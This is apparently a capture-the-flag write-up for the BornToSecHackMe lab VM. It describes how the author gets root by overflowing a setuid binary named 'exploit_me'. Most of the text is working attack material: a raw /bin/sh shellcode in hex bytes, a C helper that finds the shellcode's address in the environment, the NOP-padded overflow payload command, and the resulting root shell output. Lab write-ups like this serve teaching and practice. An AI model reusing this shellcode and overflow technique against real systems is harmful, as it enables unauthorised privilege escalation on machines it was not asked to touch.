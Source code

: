 [See detailed writeup here](../writeup1.md)

[See detailed writeup here 9](writeup9.md)

This time we will exploit `**exploit_me**` in the zaz user with shellcode.

```
export shellcode=$'\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0
\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'
```

When you search for "/bin/sh shellcode" on Google, this is one of the first results:

```
https://shell-storm.org/shellcode/files/shellcode-827.html
```

We copied the shellcode directly from there and put it into an environment variable.

We will use a simple C code to get the pointer address of this shellcode.

```
#include <stdio.h>
#include <stdlib.h>

int main(int ac, char **av)
{
        if (ac == 2)
        {
                char* ptr = getenv(av[1]);
                printf("%p\n", ptr);
        }
}
```

```
zaz@BornToSecHackMe:~$ gcc shellcode.c

zaz@BornToSecHackMe:~$ ./a.out shellcode
0xbffffef7
zaz@BornToSecHackMe:~$
```
Our second argument is the shellcode environment variable we added.

We just obtained the memory address and now we need to use it in little endian format.

```little endian = "\xf7\xfe\xff\xbf" ```


```
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "\x90" * 140 + "\xf7\xfe\xff\xbf"')
������������������������������������������������������������������������������������������������������������������������������������������������
# whoami
root
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
# exit

```

FINALLY WE ARE ROOT #12 ;D